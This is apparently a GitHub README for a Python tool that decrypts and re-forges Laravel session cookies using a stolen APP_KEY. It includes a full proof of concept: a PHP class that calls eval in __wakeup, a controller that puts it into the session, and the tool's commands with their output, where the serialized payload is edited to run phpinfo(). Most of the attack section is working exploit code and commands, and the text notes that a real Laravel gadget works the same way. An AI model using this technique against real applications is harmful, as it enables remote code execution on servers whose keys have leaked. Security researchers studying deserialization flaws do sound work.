


# Laravel cookie killer

A tool used to cypher/uncypher Laravel cookie based on python3

## Prerequisites

To use the tool you need to exfiltrate the `APP_KEY` base64 value contained in the `.env` file contained at the root of the Laravel project. 

The session also has to be stored in the users cookie. Therefore, the `SESSION_DRIVER` value stored in .env has to be set to the value `cookie`

## Installation

To install the tool using venv :

```bash
$ python3 -m venv env
$ source env/bin/activate
$ python3 -m pip install -r requirements.txt
```

## Keep in mind

This version is only adapted on a default configuration using a `SESSION_DRIVER` cookie with a base64 `APP_KEY` , don't hesitate to update it if needed.

Here is a list of useful features to add in the futur :

- Adding a debug mode.
- Automating the encryption part, crafting a valid cookie directly from a previous uncyphered value for example.

## Full example

The POC was performed on **Laravel v8.78.1** (released the 5th of January 2022). The following process has been used :

- The value of the `SESSION_DRIVER` and `APP_KEY` contained in the `.env` file are the following :

```
APP_KEY=base64:S3brjpadwscgUo3t0Tu/yiAAzNJql0IJs0Gado79qt4=
SESSION_DRIVER=cookie
```

- The class used to exploit the unserialization is the following 

```php
<?php

namespace App\Models;

class User
{
    private $hook;

   function __construct()
   {
      $this->hook = "echo 'testtest';";
   }

    function __wakeup()
   {
      eval($this->hook);
   }
}
```

- A controller initializing a cookie with a valid serialized value has been created 

```php
<?php

namespace App\Http\Controllers;

use  Illuminate\Support\Facades\Cookie;
use App\Http\Controllers\Controller;
use Illuminate\Http\Request;
use App\Models\User;

class TestController extends Controller
{
   /**
     * Show the profile for the given user.
     *
     * @param  Request  $request
     * @return Response
     */
    public function show(Request $request)
    {
        $value = $request->session()->put('test', new User());
        return view('test');
    }
}
```

The endpoint retrieves this information by default



- The cookie can then be retrieved and uncyphered

```bash
$ python3 laravel_cookie_killer.py -d -k S3brjpadwscgUo3t0Tu/yiAAzNJql0IJs0Gado79qt4= -c eyJpdiI6ImNNTjlCNHkyRXFZQ3JaVWJ0NExVekE9PSIsInZhbHVlIjoiU05nNFBEQzBybGNkVUdEWEtDNXBtR3JnZ1VPZ1N5THFJRkhVdGZ1Nzk5LzZNRHZnZjM5cDFySDBYWEh5ckx0NFpNdzArNUhJSnErMFpFZEdkY0JUMDFoamxiTzVEUkErRVlGUlhQaTU1M1VxT3VZN1BwMEYyWHhzcWZxYUJhTDJhc0hocHVzbGFBeDJwbVkycDlzVU5RRjViaXJialVwWlIrVC93REJ1UkRDOThSZ3JtT09Mcy9CY0J3Nkl1MnZSekRVVW9heFZHMlJobTBHU2loeGpwNjdXQ1YxeWFsMFJ3aCtxMHNKUm1FbEFwUUhMTjhJNDJhV1RQWVlZb1RmRWNZS3pLUWlqcXZuSTB0cGRVaFNVSHdCZmd4cEFJb09QY3Z2VitmNjBFTGwxaGtUSW9HWUJJOUxFZDE0NHgyay9UcFJtekxYb2RGV0M3ZkxiR0pGYkVqRFdCMWdjSWVyeXZpY3diR2lXSjRmMW1MNVJQM2dCbDUxYzE1UWVjZDh0MWdXQU5oQ1c1c0dOeUVXbGNQaEFkTTR0MllkVmo1bW9nNldqcCtWcDBuQ0M3dTFiUVNlQUEveGwzaVhsUlZyZ1lpa2R0ZlpXN3hWSGt5azhhdFJRN01FY2Z6R09DQU1COVduRzVmOGN1V3JXNVRaS1VEK0U1OUxNa0FPUm42aHMwYmhwNjFPVExrR1E2MDdpWHJrSzdnPT0iLCJtYWMiOiIwNDA2ZGY5MzRlOGU3N2Q0ZGVlNzhmNzA3NmVmODBjMzI2OTczOTlkMTgxMzA4OWIxMjdhZTljMTJjMmRiOGFiIiwidGFnIjoiIn0=  
[*] uncyphered string
a5f17f34712ae30c02303f879a3347829b7eaf5d|{"data":"a:4:{s:6:\"_token\";s:40:\"jGmGbgPqUKnk2klI18Blhd1qnf7D8iViuvfJ9kb9\";s:4:\"test\";O:15:\"App\\Models\\User\":1:{s:21:\"\u0000App\\Models\\User\u0000hook\";s:16:\"echo 'testtest';\";}s:9:\"_previous\";a:1:{s:3:\"url\";s:26:\"http:\/\/localhost:8000\/test\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1643644156}

[*] Base64 encoded uncyphered version
b'YTVmMTdmMzQ3MTJhZTMwYzAyMzAzZjg3OWEzMzQ3ODI5YjdlYWY1ZHx7ImRhdGEiOiJhOjQ6e3M6NjpcIl90b2tlblwiO3M6NDA6XCJqR21HYmdQcVVLbmsya2xJMThCbGhkMXFuZjdEOGlWaXV2Zko5a2I5XCI7czo0OlwidGVzdFwiO086MTU6XCJBcHBcXE1vZGVsc1xcVXNlclwiOjE6e3M6MjE6XCJcdTAwMDBBcHBcXE1vZGVsc1xcVXNlclx1MDAwMGhvb2tcIjtzOjE2OlwiZWNobyAndGVzdHRlc3QnO1wiO31zOjk6XCJfcHJldmlvdXNcIjthOjE6e3M6MzpcInVybFwiO3M6MjY6XCJodHRwOlwvXC9sb2NhbGhvc3Q6ODAwMFwvdGVzdFwiO31zOjY6XCJfZmxhc2hcIjthOjI6e3M6MzpcIm9sZFwiO2E6MDp7fXM6MzpcIm5ld1wiO2E6MDp7fX19IiwiZXhwaXJlcyI6MTY0MzY0NDE1Nn0LCwsLCwsLCwsLCw=='
```

- It is then possible to set its content of it, encode it again to trigger a phpinfo() for example.

The following changes have been performed on the payload

```
a5f17f34712ae30c02303f879a3347829b7eaf5d|{"data":"a:4:{s:6:\"_token\";s:40:\"Nyh5RKNv7T34YVW8mnPvQsgfomLwLwsabFadnz73\";s:4:\"test\";O:15:\"App\\Models\\User\":1:{s:21:\"\u0000App\\Models\\User\u0000hook\";s:10:\"phpinfo();\";}s:9:\"_previous\";a:1:{s:3:\"url\";s:26:\"http:\/\/localhost:8000\/test\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1643644589}

```

You can then encode the new value like this

```bash
$ python3 laravel_cookie_killer.py -e -k S3brjpadwscgUo3t0Tu/yiAAzNJql0IJs0Gado79qt4= --hash a5f17f34712ae30c02303f879a3347829b7eaf5d -v YTVmMTdmMzQ3MTJhZTMwYzAyMzAzZjg3OWEzMzQ3ODI5YjdlYWY1ZHx7ImRhdGEiOiJhOjQ6e3M6NjpcIl90b2tlblwiO3M6NDA6XCJOeWg1UktOdjdUMzRZVlc4bW5QdlFzZ2ZvbUx3THdzYWJGYWRuejczXCI7czo0OlwidGVzdFwiO086MTU6XCJBcHBcXE1vZGVsc1xcVXNlclwiOjE6e3M6MjE6XCJcdTAwMDBBcHBcXE1vZGVsc1xcVXNlclx1MDAwMGhvb2tcIjtzOjEwOlwicGhwaW5mbygpO1wiO31zOjk6XCJfcHJldmlvdXNcIjthOjE6e3M6MzpcInVybFwiO3M6MjY6XCJodHRwOlwvXC9sb2NhbGhvc3Q6ODAwMFwvdGVzdFwiO31zOjY6XCJfZmxhc2hcIjthOjI6e3M6MzpcIm9sZFwiO2E6MDp7fXM6MzpcIm5ld1wiO2E6MDp7fX19IiwiZXhwaXJlcyI6MTY0MzY0NDU4OX0=
b'eyJpdiI6ICJkV3JSNkMwdDF0emY3bXltbWlucWVBPT0iLCAidmFsdWUiOiAiZjRVWmYyTnJqV3ZRbTlUeHhKOEV0QzJ2QWhTeVBadGszOXpBbWZMYWRaT0pKVFNmOG5NcVBUUm5oRjZmaHczczVXWnIvZTBsaTdWS2RsT04yUnVwYzBlNWVMZjRNRUMzSExnTUE4SUFKREdTU0l1ZSs4VjFDWHRCYXlWd1liMmMxMVhjTkFaV0gzenJsR1hlc0E3d0hqUzJ1TGZhR0xCSW9aa3IxZUpZUFE0ek50aG9WWUdWL09kaGRIU205TW9rVGc2MnBlNXJKTllqQlZqRkJsZWdTdldMdndhT2dWMmFFcmdVNk9aNTdJVHRCdjVLYVhvUVoxcjB6Nmt0b0VZS3JrUzVoT3JuZ2JmUEluRnVnVDRmc1ZVN1labUowc2orWlRVSGlZQVlFaXRVWjcwWmNpRTBWNE1wY09YSGZnakI4dVpGZHlUWm95T2Z0TkdYbmVLb2VTK3JuOURlN1RmUGh6c2lDSkQ0WXR1cnYwcnpHNzk1NWl4YlhtbzFCZGNSeHpTN3UyMm9wRWlqTVVVemR3YS9Sb3o5S0pDNDQrMGJNUUVMR21EeDV2TThLTU83ck80Z0JBNU9qaS9kL28zZ1NKMS94b3NhVDBZOXlwUkZNMkFsblA1cGc3QU13a3ZwK1hTTWMzS1NWNnFoZmF2VDFCczZDeGtKL3ZpaHMrRDMiLCAibWFjIjogIjZmMzllODYxOGQ0YmIyMDJlM2MxOTIwYTE5Yjk5YTJlOTIzZTNhYWIzOTM2YmI3ZTMxMWJkMWM4NzQ2OTVmOTEiLCAidGFnIjogIiJ9'
```

- Finally a phpinfo() can be trigged



It has to be noted that the PHP file has been designed for the POC, using a similar structure with a valid Laravel gadget would have the same behavior.